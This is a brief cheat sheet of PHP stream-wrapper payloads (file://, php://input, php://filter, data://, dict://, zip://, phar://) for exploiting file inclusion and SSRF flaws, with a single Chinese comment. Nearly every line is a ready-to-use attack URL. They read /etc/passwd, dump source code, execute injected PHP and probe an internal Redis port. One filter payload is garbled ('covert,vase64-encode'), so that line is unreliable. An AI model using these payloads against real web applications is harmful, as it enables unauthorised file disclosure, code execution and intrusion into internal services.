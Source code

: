 

file://

读取本地的文件，

```
www.xxx.com/?file=file:///etc/passwd
```



php://input

```
www.xxx.xxx/?cmd=php://input
```



php://filter

```
www.xxx.xxx/?file=php://filter/read=covert,vase64-encode/resource=index.php
```



data://

```
http://127.0.0.1/include.php?file=data://text/plain,<?php%20phpinfo();?>
```



dict://

```
192.168.0.0/?url=dict://192.168.0.0:6379
```



zip://

```
www.xxx.xxx/?file=zip:///php.zip#phpinfo.jpg
```



phar://

```
http://127.0.0.1/include.php?file=phar:///phpinfo.zip/phpinfo.txt
```



```
?file=php://filter/read=convert.base64-encode/resource=index.php
```

```
data://text/plain;编码格式,读取内容
```


